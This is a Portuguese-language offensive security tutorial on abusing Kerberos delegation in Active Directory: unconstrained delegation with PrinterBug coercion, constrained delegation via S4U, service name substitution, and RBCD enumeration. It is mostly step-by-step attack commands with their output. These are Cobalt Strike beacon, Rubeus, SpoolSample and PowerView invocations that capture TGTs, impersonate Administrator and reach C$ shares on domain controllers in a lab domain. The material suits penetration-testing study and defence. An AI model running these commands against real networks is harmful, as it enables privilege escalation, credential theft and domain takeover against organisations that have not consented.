



✧ ✧ ✧
Understanding delegation
Delegation no contexto do Active Directory refere-se a um mecanismo que permite que uma entidade (usuário, computador ou serviço) atue em nome de outra entidade para acessar recursos na rede. De forma simples, é quando você permite que um serviço ou aplicação "se passe por" um usuário para acessar outros serviços na rede. Olhando para o protocolo Kerberos, que é o mecanismo de autenticação padrão do Active Directory, delegation permite que um serviço receba um ticket autenticação de outro usuário e use esse ticket para acessar outros recursos em nome daquele usuário.
Cenário
Imagine que uma aplicação web acesse um banco de dado SQL Server back-end:
- O usuário se autentica na aplicação web
- A aplicação web precisa acessar o SQL Server em nome do usuário
- Com delegation, a aplicação web pode usar as credencias do usuário para autenticar no SQL Server
- O SQL server vê a requisição como vindo do usuário original e não da aplicação web

Observação
Sem delegation, o SQL Server veria todas as requisições como vindas de conta de serviço da aplicação web, não conseguindo distinguir entre diferente usuário finais.
Por que ela é usada
Delegation existe para resolver problemas arquiteturais e de segurança em ambientes corporativos com múltiplas camadas de serviços, sem ela, o Active Directory vira terra de Domain Admin pra tudo, o que é operacionalmente burro e ofensivamente bom (pra quem ataca).
Delegation em Active Directory permite distribuir tarefas administrativas do dia a dia sem precisar conceder privilégios amplos como os de Domain Admin, ela se baseia em ACLs, que definem de forma precisa o que cada usuário ou grupo pode fazer sobre objetos específicos do AD, com isso, o ambiente se torna mais organizado, escalável e alinhado ao princípio do menor privilégio, também facilita auditorias e deixa mais clara a responsabilidade de cada equipe.
Por outro lado, quando mal configurada, a delegation pode criar administradores "invisíveis" e abrir caminhos discretos para escalada de privilégios. Delegation é uma necessidade operacional que, quando mal implementada, se transforma em um dos vetores de escalada de privilégio mais silenciosos do ambiente, e vamos mostrar isso mais abaixo.
Tipos de Delegation
1 - Unconstrained Delegation (Delegação Irrestrita) — O tipo mais antigo e perigoso. Quando habilitado, o serviço pode impersonar o usuário em qualquer serviço de domínio sem restrições. Atributo: TrustedForDelegation = True (flag TRUSTED_FOR_DELEGATION no userAccountControl).
2 - Constrained Delegation (Delegação Restrita) — Introduzido no Windows Server 2003, permite delegation apenas para SPNs definidos explicitamente. Atributo: msDS-AllowedToDelegateTo — contém lista de SPNs permitidos.
3 - Resource-Based Constrained Delegation (RBCD) — Introduzido no Windows Server 2012, a configuração é feita no recurso de destino, não na origem. Administradores de recursos controlam quem pode delegar para seu serviço. Atributo: msDS-AllowedToActOnBehalfOfOtherIdentity no objeto de destino (ex: SQL Server).
Unconstrained Delegation
Quando Unconstrained Delegation está habilitado em um servidor (por exemplo, WEBSERVER01), o processo funciona assim:
Passo 1: Usuário Autentica no Serviço
- O usuário (ex: alice) solicita acesso ao serviço em WEBSERVER01
- O cliente do usuário contacta o KDC (Key Distribution Center - geralmente um Domain Controller)
- O KDC verifica que WEBSERVER01 tem Unconstrained Delegation habilitada
- O KDC emite um TGS (Ticket Granting Service) para o serviço em WEBSERVER01
Passo 2: TGT é Armazenado no Servidor
PARTE CRÍTICA DA SEGURANÇA: Quando o usuário se autentica em um serviço com Unconstrained Delegation, uma cópia do TGT (Ticket Granting Ticket) do usuário é incluída no TGS e enviada para o servidor. O servidor WEBSERVER01 agora possui:
- O TGS para autenticar o usuário no serviço local
- Uma cópia do TGT do usuário armazenada em memória (LSASS)
Passo 3: Servidor Usa TGT para Impersonar Usuário
Quando WEBSERVER01 precisa acessar outro recurso (ex: SQLSERVER01) em nome de alice:
- WEBSERVER01 usa o TGT de alice (que está em sua memória)
- Solicita um TGS para SQLSERVER01 ao KDC usando o TGT de alice
- O KDC emite o TGS como se fosse alice fazendo a requisição
- WEBSERVER01 usa esse TGS para autenticar em SQLSERVER01 como alice
O fluxo a seguir mostra como acontece essa autenticação:

Por Que Isso é Extremamente Perigoso
Problema 1: TGT em Memória
Se um atacante compromete um servidor com Unconstrained Delegation, ele pode:
- Extrair todos os TGTs armazenados em memória
- Impersonar qualquer usuário que tenha se autenticado naquele servidor
- Incluindo Domain Admins e Enterprise Admins
Problema 2: Sem restrições e Domain Controllers
O servidor pode usar esses TGTs para acessar qualquer serviço no domínio, sem limitações. Domain Controllers sempre têm Unconstrained Delegation habilitada por padrão — se você comprometer um DC, você tem acesso a todos os TGTs que passarem por ele.
Explorando Unconstrained Delegation
Enumeração
Precisamos buscar objetos de computadores com a propriedade TrustedForDelegation definida como true:
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
[+] samaccountname : DC-2$
[+] dnshostname : dc-2.krnldv0.com
[+] samaccountname : WEB$
[+] dnshostname : web.krnldv0.com
Esse filtro LDAP faz duas coisas:
(&(objectCategory=computer)— Retorna apenas objetos do tipo computador no AD(userAccountControl:1.2.840.113556.1.4.803:=524288))— Verifica se o bit TRUSTED_FOR_DELEGATION está ativo no atributo userAccountControl
O valor 524288 corresponde exatamente ao flag: TRUSTED_FOR_DELEGATION
Vamos assumir que ja temos uma dessas maquinas comprometidas.
Forçar autenticação
Usuários privilegiados (Domain Admins) raramente se autenticam em servidores web comuns. Você precisa forçar um Domain Controller ou admin a se autenticar no servidor comprometido.
Podemos usar uma técnica chamada de PrinterBug (MS-RPRN Abuse)
PrinterBug (MS-RPRN Abuse)
Como funciona:
- Abusa da função RpcRemoteFindFirstPrinterChangeNotification do Print Spooler
- Força um servidor remoto (ex: DC) a se autenticar de volta para você
Usando o mode de monitor do Rubeus, precisamos ficar "escutando" em um terminal: .\Rubeus.exe monitor /interval:10 /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
[*] Action: TGT Monitoring
[*] Monitoring every 10 seconds for new TGTs
Em outro terminal iremos precisar da ferramenta chamada de SpoolSample: .\SpoolSample.exe dc-2.krnldv0.com web.krnldv0.com
- dc-2.krnldv0.com — Nosso alvo
- web.krnldv0.com — Nosso ouvinte
Então no Rubeus conseguimos capturar o ticket:
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:
User : DC-2$@KRNLDV0.COM
StartTime : 9/6/2022 9:06:14 AM
EndTime : 9/6/2022 7:06:14 PM
RenewTill : 9/13/2022 9:06:14 AM
Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
Base64EncodedTicket :
doIFujaJQdlDLklP...
Podemos então usar o ticket do usuário para se passar por ele, podemos fazer isso usando o Rubeus:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:KRNLDV0 /username:nlamb /password:FakePass /ticket:doIFuj[...]lDLklP
[*] Using KRNLDV0\nlamb:FakePass
[*] Showing process : False
[*] Username : nlamb
[*] Domain : KRNLDV0
[*] Password : FakePass
[+] Process : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID : 1540
[+] Ticket successfully imported!
[+] LUID : 0x3206fb
beacon> steal_token 1540
beacon> ls \\dc-2.krnldv0.com\c$
Size Type Last Modified Name
---- ---- ------------- ----
dir 08/15/2022 15:44:08 $Recycle.Bin
dir 08/10/2022 04:55:17 $WinREAgent
dir 08/10/2022 05:05:53 Boot
dir 08/18/2021 23:34:55 Documents and Settings
dir 08/19/2021 06:24:49 EFI
dir 08/15/2022 16:09:55 inetpub
dir 05/08/2021 08:20:24 PerfLogs
dir 08/24/2022 10:51:51 Program Files
dir 08/10/2022 04:06:16 Program Files (x86)
dir 09/05/2022 17:17:48 ProgramData
Introdução ao S4U (Service for User)
S4U (Service for User), também conhecido como Constrained Delegation (Delegação Restringida), é uma extensão do protocolo Kerberos introduzida no Windows Server 2003 que resolve um problema específico: permitir que um serviço atue em nome de um usuário para acessar outros serviços de forma controlada e limitada.
Essa tecnologia consiste em dois protocolos que trabalham juntos: S4U2self (Service for User to Self), que permite um serviço obter um service ticket para si mesmo em nome de um usuário que autenticou via método não-Kerberos (como NTLM), e S4U2proxy (Service for User to Proxy), que permite um serviço solicitar um service ticket para outro serviço em nome de um usuário.
A principal vantagem do Constrained Delegation/S4U é que, diferentemente da delegação não restringida (unconstrained delegation) que era insegura pois permitia delegação ilimitada, ele limita os serviços aos quais outro serviço pode delegar acesso através do atributo msDS-AllowedToDelegateTo do objeto computador, que contém uma lista de SPNs específicos aos quais o computador está autorizado a delegar, tornando o processo muito mais seguro e controlado.

Nesta imagem, podemos ver, por exemplo, que temos a flag msDS-AllowedToDelegateTo configurada permitindo apenas delegação para o cifs/WEB-SERVER-02.
Protocol Transition (Transição de Protocolo)
O Protocol Transition é um recurso que permite ao serviço front-end obter um ticket Kerberos forwardável para usuários que se autenticaram usando protocolos não-Kerberos, como NTLM. Este recurso está desabilitado por padrão e requer que a flag TRUSTED_TO_AUTH_FOR_DELEGATION seja explicitamente definida no atributo UserAccountControl do objeto computador.
Quando habilitado, o Protocol Transition permite que o serviço execute S4U2self para obter um ticket de serviço forwardável em nome do usuário, mesmo que este não tenha se autenticado via Kerberos. Este ticket pode então ser usado com S4U2proxy para solicitar acesso a serviços back-end. Sem o Protocol Transition habilitado, o S4U2self ainda retorna um ticket, mas sem a flag forwardável, impedindo seu uso em requisições S4U2proxy subsequentes.
┌──────────────────────────────────────────────────────────────────────────────────────┐
│ Protocol Transition HABILITADO │
│ (TRUSTED_TO_AUTH_FOR_DELEGATION = TRUE) │
└──────────────────────────────────────────────────────────────────────────────────────┘
┌──────────┐ ┌───────────────┐ ┌───────────────────┐
│ │ 1. Auth NTLM │ │ │ │
│ User ├────────────────►│ Serviço Web │ │ MSSQL │
│ │ (Não-Kerberos) │ (Front-end) │ │ (Back-end) │
│ │ │ │ │ │
└──────────┘ └───────┬───────┘ └───────────────────┘
│ ▲
▼ │
┌───────────────┐ │
│ KDC │ │
└───────┬───────┘ │
│ │
┌────────────────────┴────────────────────┐ │
│ 2. S4U2self Request │ │
│ - Serviço solicita ticket para │ │
│ si mesmo em nome do usuário │ │
│ - KDC retorna ticket FORWARDÁVEL │ │
│ │ │
│ 3. S4U2proxy Request │ │
│ - Serviço usa ticket forwardável │ │
│ - Solicita acesso ao MSSQL │ │
│ - KDC retorna ticket para MSSQL │ │
└─────────────────────────────────────────┘ │
│
4. Acesso ao MSSQL ──────────────────────────┘
como o usuário original
┌──────────────────────────────────────────────────────────────────────────────────────┐
│ Protocol Transition DESABILITADO │
│ (TRUSTED_TO_AUTH_FOR_DELEGATION = FALSE) │
└──────────────────────────────────────────────────────────────────────────────────────┘
┌──────────┐ ┌───────────────┐ ┌───────────────────┐
│ │ 1. Auth NTLM │ │ │ │
│ User ├────────────────►│ Serviço Web │ │ MSSQL │
│ │ (Não-Kerberos) │ (Front-end) │ │ (Back-end) │
│ │ │ │ │ │
└──────────┘ └───────┬───────┘ └───────────────────┘
│
▼
┌───────────────┐
│ KDC │
└───────┬───────┘
│
┌────────────────────┴────────────────────┐
│ 2. S4U2self Request │
│ - Serviço solicita ticket para │
│ si mesmo em nome do usuário │
│ - KDC retorna ticket NÃO-FORWARDÁVEL│
│ │
│ 3. S4U2proxy Request │
│ - Tentativa de usar ticket │
│ - FALHA: KDC_ERR_BADOPTION │
│ - Ticket sem flag forwardável │
└─────────────────────────────────────────┘
Acesso NEGADO ao MSSQL
Mas isso não quer dizer que sem protocol transition é impossível se autenticar, apenas a autenticação que ira ser feita diretamente com o TGT.
Agora vamos para a parte interessante...
Verificando se Protocol Transition está habilitado:
beacon> ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl
userAccountControl: 16781312
Você pode verificar se um sinalizador específico está definido realizando uma operação bitwise com o valor atual de UAC e o valor do sinalizador:
PS C:\> [System.Convert]::ToBoolean(16781312 -band 16777216)
True
Se retornar True, significa que Protocol Transition está habilitado. Se retornar False, está desabilitado.
Valores:
- 4096 = WORKSTATION_TRUST_ACCOUNT
- 16777216 = TRUSTED_TO_AUTH_FOR_DELEGATION
- 16781312 = 4096 + 16777216 (ambas flags ativas)
Se um adversário conseguir comprometer um computador configurado para delegação restrita, eles podem solicitar bilhetes de serviço para os serviços listados em seu atributo msDS-AllowedToDelegateTo. No entanto, o procedimento variará dependendo de se a transição de protocolo está habilitada ou não.
Fase de Reconhecimento
Primeiro, identificamos computadores com Constrained Delegation:
beacon> ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
sAMAccountName: HEAP-WS-1$
msDS-AllowedToDelegateTo: cifs/heap-fs-1.krnldv0.com, cifs/heap-fs-1
Em seguida, verificamos se Protocol Transition está habilitado:
beacon> ldapsearch (&(samAccountType=805306369)(samaccountname=heap-ws-1$)) --attributes userAccountControl
userAccountControl: 16781312
PS C:\> [System.Convert]::ToBoolean(16781312 -band 16777216)
True
Resultado: Protocol Transition está HABILITADO.
Ataque COM Protocol Transition
Quando a transição de protocolo está habilitada, o adversário pode obter um TGT para a conta do computador e usá-lo para realizar uma solicitação S4U2self. Eles têm total liberdade em colocar qual nome de usuário no TGS-REQ, podendo se passar por qualquer usuário no domínio. O bilhete de serviço retornado é forwardável, então pode ser usado para realizar uma solicitação S4U2proxy. Isso lhes dará um bilhete de serviço válido para o serviço alvo, como o usuário pretendido.
Rubeus é capaz de realizar tanto as etapas S4U2self quanto S4U2proxy em um único comando s4u:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:heap-ws-1$ /msdsspn:cifs/heap-fs-1 /ticket:doIFn[...snip...]5DT00= /impersonateuser:Administrator /nowrap
Onde:
- /user — o principal (e.g. computador) configurado para a delegação.
- /msdsspn — o serviço ao qual o principal é permitido delegar.
- /ticket — o TGT para o principal.
- /impersonateuser — o usuário que queremos impersonar (pode ser QUALQUER usuário).
Rubeus usará primeiro o TGT do principal para realizar um S4U2self:
[*] Action: S4U
[*] Building S4U2self request for: 'HEAP-WS-1$@KRNLDV0.COM'
[*] Using domain controller: heap-dc-1.krnldv0.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@KRNLDV0.COM'
[*] base64(ticket.kirbi):
doIF8[...snip...]MtMSQ=
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.krnldv0.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
O ataque falha porque o ticket não possui a flag forwardable.
Solução Alternativa: Capturar Service Tickets Existentes
Em vez disso, o adversário deve obter um bilhete de serviço que um usuário tenha solicitado para ganhar acesso ao serviço de front-end. Isso significa que eles não podem se falsificar livremente qualquer usuário, mas estão limitados aos(s) usuário(s) para os quais bilhetes de serviço estão disponíveis.
Esses bilhetes de serviço podem ser usados diretamente com S4U2proxy, para obter bilhetes de serviço válidos para o serviço alvo, como esses usuários. Podemos monitorar com a flag /monitor do Rubeus para capturar bilhetes de serviço em tempo real.
Neste exemplo, já temos um bilhete de serviço HTTP para dyork@HTTP/lon-ws-1:
[*] Action: Describe Ticket
ServiceName : HTTP/lon-ws-1
ServiceRealm : KRNLDV0.COM
UserName : dyork (NT_PRINCIPAL)
UserRealm : KRNLDV0.COM
StartTime : 20/02/2025 18:58:24
EndTime : 21/02/2025 04:57:43
RenewTill : 27/02/2025 18:57:43
Flags : name_canonicalize, pre_authent, renewable, forwardable
KeyType : aes256_cts_hmac_sha1
Base64(key) : ld5jNd1Dul9W0Dw6kVAQQBSnK72PdOhk9h3z97R0CJQ=
Note que este ticket possui a flag forwardable porque foi obtido através de autenticação Kerberos legítima monitorada na máquina já comprometida pelo Rubeus.
O procedimento para isso é usar o parâmetro /tgs no Rubeus, em vez do /impersonateuser:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:doIFn[...snip...]5DT00= /tgs:doIFp[...snip...]dzLTE= /nowrap
Onde:
- /user — o principal (e.g. computador) configurado para a delegação.
- /msdsspn — o serviço ao qual o principal é permitido delegar.
- /ticket — o TGT para o principal.
- /tgs — um bilhete de serviço de front-end capturado para um usuário.
[*] Action: S4U
[*] Loaded a TGS for KRNLDV0.COM\dyork
[*] Impersonating user 'dyork' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.krnldv0.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/lon-fs-1':
doIGL[...snip...]mcy0x
Este bilhete pode ser usado para acessar o serviço CIFS em lon-fs-1 como dyork:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:KRNLDV0.COM /username:dyork /password:FakePass /ticket:doIGL[...snip...]mcy0x
[*] Using KRNLDV0.COM\dyork:FakePass
[+] Process : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID : 2080
[+] Ticket successfully imported!
[+] LUID : 0xa1c99b
beacon> steal_token 2080
beacon> ls \\lon-fs-1\c$
Size Type Last Modified Name
---- ---- ------------- ----
dir 01/23/2025 15:44:52 $Recycle.Bin
dir 01/23/2025 13:57:51 $WinREAgent
dir 01/23/2025 13:47:37 Documents and Settings
dir 02/20/2025 10:37:21 Files
dir 05/08/2021 08:20:24 PerfLogs
dir 01/23/2025 15:46:17 Program Files
dir 01/23/2025 15:46:18 Program Files (x86)
dir 01/24/2025 14:21:18 ProgramData
dir 01/23/2025 13:47:43 Recovery
dir 01/24/2025 14:18:02 System Volume Information
dir 01/24/2025 14:17:49 Users
dir 01/24/2025 13:34:02 Windows
12kb fil 02/20/2025 10:50:16 DumpStack.log.tmp
1gb fil 02/20/2025 10:50:16 pagefile.sys
Service Name Substitution
A Substituição de Nome de Serviço é uma técnica que permite que um adversário "troque" um ticket de serviço de um serviço para outro serviço. Isso é possível porque o campo sname (Service Name) no ticket Kerberos não é criptografado e não é incluído no cálculo do checksum do ticket.
Exemplo: Delegação para o Serviço TIME
Este abuso é útil em casos de delegação restringida, onde o serviço sendo delegado não é imediatamente útil para movimento lateral. Por exemplo, aqui vemos que lon-ws-1 pode delegar ao serviço TIME em lon-dc-1:
sAMAccountName: LON-WS-1$
msDS-AllowedToDelegateTo: time/lon-dc-1.krnldv0.com, time/lon-dc-1
O problema para um adversário é que TIME não é útil como CIFS, pois não concede acesso remoto ao computador. Mas usando Service Name Substitution, podemos solicitar um ticket para TIME e simplesmente substituir o nome do serviço no ticket retornado de TIME por CIFS, ou qualquer outro serviço que desejarmos.
Executando o Ataque
Isso é possível no Rubeus através do parâmetro /altservice. O seguinte procedimento pressupõe que a transição de protocolo está habilitada:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:doIFn[...snip...]5DT00= /impersonateuser:Administrator /nowrap
Onde:
- /user — o principal (e.g. computador) configurado para a delegação.
- /msdsspn — o serviço ao qual o principal é permitido delegar (time/lon-dc-1).
- /altservice — o serviço a ser substituído no ticket final (cifs).
- /ticket — o TGT para o principal.
- /impersonateuser — o usuário que queremos impersonar.
Dica: O parâmetro /altservice aceita uma lista de serviços separada por vírgulas, por exemplo /altservice:cifs,host,http. Isso produzirá 3 novos tickets que você pode injetar.
[*] Action: S4U
[*] Building S4U2self request for: 'LON-WS-1$@KRNLDV0.COM'
[*] Using domain controller: lon-dc-1.krnldv0.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@KRNLDV0.COM'
[*] base64(ticket.kirbi):
doIF8[...snip...]MtMSQ=
[*] Impersonating user 'Administrator' to target SPN 'time/lon-dc-1'
[*] Final ticket will be for the alternate service 'cifs'
[*] Building S4U2proxy request for service: 'time/lon-dc-1'
[*] Using domain controller: lon-dc-1.krnldv0.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/lon-dc-1':
doIGf[...snip...]RjLTE=
Usando o Ticket Substituído
Agora podemos usar este ticket CIFS (que originalmente era TIME) para acessar o Domain Controller:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:KRNLDV0.COM /username:Administrator /password:FakePass /ticket:doIGf[...snip...]RjLTE=
[*] Using KRNLDV0.COM\Administrator:FakePass
[+] Process : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID : 2548
[+] Ticket successfully imported!
[+] LUID : 0x9bb752
beacon> steal_token 2548
beacon> ls \\lon-dc-1\c$
Size Type Last Modified Name
---- ---- ------------- ----
dir 01/24/2025 13:33:39 $Recycle.Bin
dir 01/23/2025 13:57:51 $WinREAgent
dir 01/23/2025 13:47:37 Documents and Settings
dir 05/08/2021 08:20:24 PerfLogs
dir 01/23/2025 15:46:17 Program Files
dir 01/23/2025 15:46:18 Program Files (x86)
dir 01/24/2025 14:08:45 ProgramData
dir 01/23/2025 13:47:43 Recovery
dir 01/29/2025 10:42:20 System Volume Information
dir 01/24/2025 13:33:21 Users
dir 01/24/2025 13:49:56 Windows
12kb fil 02/21/2025 01:45:32 DumpStack.log.tmp
1gb fil 02/21/2025 01:45:32 pagefile.sys
Resource-Based Constrained Delegation (RBCD)
A Delegação Restringida tradicional (Constrained Delegation) é configurada no serviço front-end e define para quais serviços back-end ele pode delegar. Modificar o atributo msDS-AllowedToDelegateTo de uma conta de serviço (usuário ou computador) requer o privilégio SeEnableDelegationPrivilege nos controladores de domínio, que é atribuído apenas aos administradores corporativos e de domínio. A Microsoft identificou isso como um problema porque os administradores de serviço não tinham uma forma útil de saber quais serviços front-end delegavam para recursos pelos quais eram responsáveis.
O Windows Server 2012 introduziu outra forma de delegação, chamada Resource-Based Constrained Delegation (frequentemente abreviada como RBCD), que coloca o controle da delegação nas mãos dos administradores de serviço (não requerendo mais SeEnableDelegationPrivilege para configuração). Agora, em vez de um serviço front-end ditar para quais serviços back-end ele pode delegar, é o serviço back-end que controla quais serviços front-end podem delegar para ele.
Isso é controlado definindo as contas de serviço front-end no atributo msDS-AllowedToActOnBehalfOfOtherIdentity da conta de serviço que executa o serviço back-end. O único privilégio necessário é acesso de escrita a este atributo, que normalmente será concedido a um grupo de domínio apropriado através do Delegation of Control Wizard.
Um administrador com esses direitos delegados pode então adicionar as entradas RBCD desejadas usando os cmdlets PowerShell do RSAT:
PS C:\> $front = Get-ADComputer -Identity 'lon-ws-1'
PS C:\> $back = Get-ADComputer -Identity 'lon-fs-1'
PS C:\> Set-ADComputer -Identity $back -PrincipalsAllowedToDelegateToAccount $front
Diferença:
Constrained Delegation:
FRONT-END (controla) --------> BACK-END (recebe)
msDS-AllowedToDelegateTo no FRONT-END lista os BACK-ENDs
RBCD:
FRONT-END (recebe) <----------- BACK-END (controla)
msDS-AllowedToActOnBehalfOfOtherIdentity no BACK-END lista os FRONT-ENDs
Explorando RBCD
Abusar do RBCD não é o mesmo que com os outros tipos de delegação, no sentido de que comprometer o serviço front-end não levará diretamente ao comprometimento do serviço back-end. No entanto, um adversário pode aproveitar o RBCD para obter acesso a qualquer computador se as seguintes condições forem atendidas:
- Eles têm acesso de escrita ao atributo
msDS-AllowedToActOnBehalfOfOtherIdentityde um objeto computador. - Eles têm controle de outro principal que possui um SPN definido.
Enumeração — Encontrando WriteProperty
Para encontrar instâncias onde o acesso de escrita foi concedido a este atributo específico, primeiro precisamos de seu GUID. Cada GUID é documentado, então podemos simplesmente procurar por ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity e descobrir que seu GUID é 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79.
A seguinte consulta PowerView buscará todos os computadores no domínio e lerá cada ACL em sua DACL. Ela imprimirá apenas resultados onde o AceType seja igual ao GUID do atributo msDS-AllowedToActOnBehalfOfOtherIdentity, e o Right seja WriteProperty:
PS C:\Users\Attacker> ipmo C:\Tools\PowerSploit\Recon\PowerView.ps1
PS C:\Users\Attacker> $Cred = Get-Credential KRNLDV0\rsteel // credenciais do rsteel que já possuimos
PS C:\Users\Attacker> Get-DomainComputer -Server 10.10.120.1 -Credential $Cred | Get-DomainObjectAcl -Server 10.10.120.1 -Credential $Cred | ? { $_.ObjectAceType -eq '3f78c3e5-f79a-46bd-a0b8-9d18116ddc79' -and $_.ActiveDirectoryRights -Match 'WriteProperty' } | select ObjectDN,SecurityIdentifier
ObjectDN SecurityIdentifier
-------- ------------------
CN=LON-WS-1,OU=Member Servers,DC=krnldv0,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
CN=LON-FS-1,OU=Member Servers,DC=krnldv0,DC=com S-1-5-21-3926355307-1661546229-813047887-1107
Esta saída mostra que 'algo' com o SID S-1-5-21-3926355307-1661546229-813047887-1107 tem o privilégio que estamos procurando em lon-ws-1 e lon-fs-1. Podemos pesquisar através dos usuários e grupos no Active Directory para descobrir a qual este SID pertence:
PS C:\Users\Attacker> Get-ADGroup -Filter 'objectsid -eq "S-1-5-21-3926355307-1661546229-813047887-1107"' -Server 10.10.120.1 -Credential $Cred
DistinguishedName : CN=Server Admins,CN=Users,DC=krnldv0,DC=com
GroupCategory : Security
GroupScope : Global
Name : Server Admins
ObjectClass : group
ObjectGUID : 5ceea890-d8b7-47f3-918f-f6d3d040d70a
SamAccountName : Server Admins
SID : S-1-5-21-3926355307-1661546229-813047887-1107
Isso significa que qualquer membro do grupo 'Server Admins' pode modificar o atributo nesses dois computadores.
No cenário descrito acima, o privilégio foi corretamente aplicado concedendo-o apenas na propriedade relevante. No entanto, você pode ver instâncias onde o privilégio é concedido de formas mais graves, como GenericWrite ou GenericAll em um objeto inteiro. Você deve levar isso em conta ao procurar por esses primitivos de abuso de DACL.
